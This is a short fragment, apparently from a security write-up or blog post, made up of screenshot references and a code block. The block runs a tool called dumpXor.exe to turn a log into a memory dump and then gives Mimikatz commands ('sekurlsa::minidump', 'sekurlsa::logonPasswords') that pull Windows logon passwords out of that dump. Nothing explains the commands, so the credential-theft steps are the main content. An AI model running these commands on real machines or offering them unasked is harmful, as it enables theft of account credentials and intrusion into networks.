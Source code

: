 ![image-20220929094315306.png](assets/1698900874-7dff453487774e5377fd419a82d9a784.png)

```php
dumpXor.exe VM21-6-8.log 1.dmp  
sekurlsa::minidump 1.dmp  
sekurlsa::logonPasswords
```

![image-20220929101614774.png](assets/1698900874-0bf102f5b58aa7e03998d77ff03f13c3.png)
